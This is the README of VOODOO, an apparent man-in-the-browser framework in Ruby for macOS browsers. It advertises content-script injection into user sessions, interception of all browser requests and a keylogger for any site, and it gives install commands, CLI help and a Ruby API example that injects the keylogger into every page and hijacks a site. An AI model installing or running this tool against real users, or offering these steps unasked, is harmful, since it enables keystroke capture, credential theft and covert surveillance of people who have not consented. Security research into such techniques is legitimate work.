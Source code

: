 # VOODOO
Man in the Browser Framework

<p align="center">
    <br />
    <img src="./.github/voodoo.svg" width="50%" />
</p>

## Browser Support

| [<img src="https://raw.githubusercontent.com/alrra/browser-logos/master/src/edge/edge_48x48.png" alt="IE / Edge" width="24px" height="24px" />](http://godban.github.io/browsers-support-badges/)<br/>Edge | [<img src="https://raw.githubusercontent.com/alrra/browser-logos/master/src/chrome/chrome_48x48.png" alt="Chrome" width="24px" height="24px" />](http://godban.github.io/browsers-support-badges/)<br/>Chrome | [<img src="https://raw.githubusercontent.com/alrra/browser-logos/master/src/opera/opera_48x48.png" alt="Opera" width="24px" height="24px" />](http://godban.github.io/browsers-support-badges/)<br/>Opera |
| --------- | --------- | --------- |
| macOS only | macOS only | macOS only

## Features
* 📜 Content Scripts - inject arbitrary JavaScript to user session
* 🔍 Interceptor - intercept browser requests (url, headers, body, etc)
* 🔑 Keylogger - records user keystrokes on any site

## Requirements
* ruby >= 2.0.0
* rubygems >= 1.8
* thor ~> 1.2.1
* bundler >= 1.17

## Installation
```sh
$: git clone https://github.com/breakpointHQ/VOODOO.git
$: cd VOODOO
$: bundle install
$: ./scripts/install.sh
```

If you don't have the `/Users/[user]/.gem/ruby/[version]/bin` in your `PATH`, add it.

## CLI

```sh
$: voodoo
Commands:
  voodoo help [COMMAND]    # Describe available commands or one specific command
  voodoo intercept         # intercept browser requests
  voodoo keylogger         # records user keystrokes
  voodoo script <js/path>  # add a content script
  voodoo version           # Prints voodoo version
```

```sh
$: voodoo help script
Usage:
  voodoo script <js/path>

Options:
  s, [--site=SITE]              
  m, [--matches=one two three]  
                                # Default: ["*://*/*"]
  b, [--browser=BROWSER]        
                                # Default: chrome

add a content script
```

## Ruby API

```rb
require 'voodoo'

browser = VOODOO::Browser.Chrome
                       # .Opera
                       # .Edge

# Intercept all browser requests
browser.intercept do |req|
    puts "#{req[:method]} #{req[:url]}"
end

# Inject keylogger to every page
browser.keylogger do |event|
    print event[:log]
end

browser.hijack 'https://example.com'
```

